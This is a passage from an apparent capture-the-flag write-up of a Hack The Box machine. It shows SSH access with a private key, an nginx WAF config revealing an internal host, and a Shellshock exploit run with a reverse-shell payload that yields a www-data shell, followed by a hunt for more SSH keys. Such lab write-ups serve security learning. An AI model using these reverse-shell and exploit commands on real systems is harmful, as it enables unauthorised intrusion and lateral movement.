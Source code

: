 `ssh -i id_rsa root@10.10.10.65 -p 1022` - we are using ssh on port 1022 instead of 22 as it didnt work on 22.

We enumerate files and find a config file in `/common/contatiners/waf-live` it has the following contents:

```php
## Blog test vhost ##
    server {
        listen       443 ssl;
        server_name  beehive.ariekei.htb;

        location / {
                proxy_pass http://172.24.0.2/;
                proxy_next_upstream error timeout invalid_header http_500 http_502 http_503 http_504;
                proxy_redirect off;
                proxy_buffering off;
                proxy_force_ranges on;
                proxy_set_header        Host            $host;
                proxy_set_header        X-Real-IP       $remote_addr;
                proxy_set_header        X-Forwarded-For $proxy_add_x_forwarded_for;
                add_header X-Ariekei-WAF "beehive.ariekei.htb";

        }

        error_page 403 /403.html;
        location = /403.html {
            root   html;
        }

    }
```

From this we can see that the ip is 172.24.0.2.

We can also see that the beehive.ariekei.htb hostname is being forwared from blog-test contatiner.

We will now try to use shellshock again to exploit the system. We find the exploit on exploit-db\([https://www.exploit-db.com/exploits/34900/](https://www.exploit-db.com/exploits/34900/)\).

Running the exploit gives a shell as www-data!

```bash
root@ezra:/tmp# python shellshock.py  payload=reverse rhost=172.24.0.2 lhost=172.24.0.253 lport=1234 pages=/cgi-bin/stats
[!] Started reverse shell handler
[-] Trying exploit on : /cgi-bin/stats
[!] Successfully exploited
[!] Incoming connection from 172.24.0.1
172.24.0.1> id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Then navigate to the ssh directory and we find another ssh key.
